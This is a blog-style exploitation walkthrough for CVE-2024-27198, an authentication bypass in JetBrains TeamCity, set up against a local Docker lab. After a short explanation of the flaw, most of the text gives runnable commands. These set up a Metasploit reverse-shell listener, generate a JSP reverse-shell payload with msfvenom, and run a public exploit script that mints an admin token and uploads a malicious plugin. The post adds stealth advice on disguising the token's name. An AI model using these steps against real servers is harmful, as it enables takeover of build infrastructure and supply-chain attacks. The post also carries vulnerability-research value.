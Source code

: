 ```yaml
---
title: 'TeamCity Authentication Bypass Vulnerability - CVE-2024-27198'
date: '2024-3-10'
category:
  - 'security'
tags:
  - 'cve'
  - 'teamcity'
  - 'exploit'
  - 'jetbrains'
summary: Learn how to exploit CVE-2024-27198, a critical authentication bypass vulnerability found in JetBrains TeamCity's web component.
coverImage: '/static/images/teamcity.jpg'
---
```

# Understanding CVE-2024-27198: A Critical Authentication Bypass Vulnerability

## Introduction

[CVE-2024-27198](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-27198) is a severe security flaw with a CVSSv3 score of 9.8, indicating its critical nature. This vulnerability is present in the web component of JetBrains TeamCity and is caused by an alternate path issue, which can be exploited to bypass authentication mechanisms.

## Detailed Exploit Analysis

The vulnerability stems from a weakness in the `BaseController` class within the `web-openapi.jar` library of TeamCity. When an API endpoint receives a request appended with `.jsp`, the `BaseController` class erroneously allows the request to bypass the standard authentication process. This flaw can be exploited by an attacker to gain unauthorized administrative access to the TeamCity server. [[Source](https://www.wiz.io/blog/jetbrains-teamcity-authentication-bypass-vulnerabilities-cve-2024-27198-cve-2024-27199)]

### The Alternate Path Issue

An alternate path issue occurs when software provides an unintended route to a goal that should be protected by authentication. In the case of CVE-2024-27198, the alternate path allows attackers to manipulate the URL to access authenticated endpoints directly, bypassing the login mechanism and gaining full control over the server.

### The Impact on TeamCity

Exploiting CVE-2024-27198 grants attackers complete control over all TeamCity projects, builds, agents, and artifacts. This level of access not only compromises the integrity of the server but also opens the door to more extensive supply chain attacks, where the attacker could insert malicious code into software builds.

## Setting Up and Executing the Exploit on Kali Linux

To demonstrate the exploit, one can set up a vulnerable TeamCity environment using Docker on Kali Linux:

```bash
# Pull a vulnerable TeamCity Server docker image (version: 2023.11.3)
docker pull jetbrains/teamcity-server:2023.11.3

# Run the docker container
docker run -it -d --name teamcity -u root -p 8111:8111 jetbrains/teamcity-server:2023.11.3
```
Navigate to http://localhost:8111 and complete the setup steps to finish server setup.

#### Prepare the listener
In a separate terminal window open a listener:
```bash
# Open a listener in metasploit 
msfconsole -q -x "use multi/handler; set payload java/jsp_shell_reverse_tcp; set lhost eth0; set lport 8088; exploit"
```


#### Execute! Execute! Execute! 💥
After the server and listener are running, the exploit can be executed using the provided Python script.

Let's think about this realistically for a moment. The vulnerability allows us to bypass authentication and execute functionality via available JSPs. With that in mind, let's approach this from a stealth engagement perspective. We should first list the users on the server, obtain the userID we are interested in (preferably an admin), and then create a token for the admin with a realistic name (such as `cicdconnector`).

> It would be a safe assumption that an admin user likely exists at `userid=1` but it is good practice to check. 

So let's do that now! In a terminal run the following:

```bash
# Clone the exploit repository
git clone https://github.com/NetPenguins/CVE-2024-27198-RCE
cd CVE-2024-27198-RCE

# Create a jsp shell, I like to use https://www.revshells.com to do basic and quick executions like this. 
msfvenom -p java/jsp_shell_reverse_tcp LHOST=eth0 LPORT=8088 -f raw -o shell.jsp

# Execute the exploit script gathering all users
python CVE-2024-27198-RCE.py -t http://localhost:8111 -g

# User the userid you found to complete the exploit into RCE
python CVE-2024-27198-RCE.py -t http://localhost:8111 -i 1 -f shell.jsp -e -n cicdconnection
```

This script will create a new administrative user, effectively bypassing the authentication and exploiting the vulnerability. In addition it will create a plugin .zip using the `shell.jsp` we generated previously and upload + activate the plugin. Lastly it will launch the jsp using the users token opening a connection to the established listener.



## Conclusion

CVE-2024-27198 is a critical vulnerability that requires immediate attention from administrators of TeamCity On-Premises installations. The alternate path issue at the heart of this vulnerability highlights the importance of thorough security practices in software development and the necessity of regular updates and patches.

